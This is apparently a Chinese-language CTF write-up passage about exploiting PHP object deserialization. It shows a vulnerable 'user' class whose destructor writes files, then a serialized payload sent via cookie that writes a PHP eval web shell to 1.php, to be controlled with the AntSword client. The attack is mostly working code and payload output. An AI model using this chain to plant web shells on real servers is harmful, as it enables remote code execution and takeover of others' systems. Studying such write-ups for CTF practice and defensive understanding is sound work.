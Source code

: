 ```php
function sds_waf($str){
	if(preg_match('/\~|\`|\!|\@|\#|\$|\%|\^|\&|\*|\(|\)|\_|\+|\=|\{|\}|\[|\]|\;|\:|\'|\"|\,|\.|\?|\/|\\\|\<|\>/', $str)){
		return false;
	}else{
		return true;
	}
}
```

我们在 `class.php`中发现可利用的点

```php
class user{
	public $username;
	public $password;
	public function __construct($u,$p){
		$this->username=$u;
		$this->password=$p;
	}
	public function __destruct(){
		file_put_contents($this->username, $this->password);
	}
}
```

析构方法可以写入文件。

在`checklogin.php`发现反序列化

![image-20230522213454762](https://raw.githubusercontent.com/leekosss/photoBed/master/202305222134802.png)

因此我们构造：

```php
<?php

class user{
	public $username;
	public $password;

}

$a = new user();
$a->username="1.php";
$a->password='<?php eval($_POST[1]);?>';

echo serialize($a);

O:4:"user":2:{s:8:"username";s:5:"1.php";s:8:"password";s:24:"<?php eval($_POST[1]);?>";}
```

cookie传参(注意url编码)

然后就可以使用蚁剑连接了，
